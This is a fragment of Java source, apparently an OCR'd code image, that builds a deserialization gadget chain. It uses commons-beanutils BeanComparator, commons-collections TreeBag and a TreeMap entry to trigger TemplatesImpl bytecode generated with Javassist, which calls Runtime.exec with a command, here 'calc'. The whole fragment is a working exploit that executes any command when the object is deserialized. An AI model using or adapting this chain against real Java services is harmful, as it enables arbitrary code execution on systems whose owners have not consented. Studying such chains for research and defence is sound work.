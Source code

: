 ```java
        setFieldValue(obj, "_bytecodes", new byte[][]{genPayload("calc")});
        setFieldValue(obj, "_name", "a");
        BeanComparator comparator = new BeanComparator("outputProperties");

        TreeBag bag = new TreeBag();
        TreeMap<Object, Object> map = new TreeMap<>();
        setFieldValue(map, "size", 1);
        Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
        Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Class<?> mutableInteger = Class.forName("org.apache.commons.collections.bag.AbstractMapBag$MutableInteger");
        Constructor<?> constructor = mutableInteger.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object MutableInteger = constructor.newInstance(1);

        Object node = nodeCons.newInstance(obj, MutableInteger, null);
        setFieldValue(map, "root", node);
        setFieldValue(map, "comparator", comparator);
        setFieldValue(bag, "map", map);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(bag);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }

    public static byte[] genPayload(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field;
        try {
            field = clazz.getDeclaredField(fieldName);
        } catch (NoSuchFieldException e) {
            field = clazz.getSuperclass().getDeclaredField(fieldName);
        }
        field.setAccessible(true);
        field.set(obj, newValue);
    }
}
```
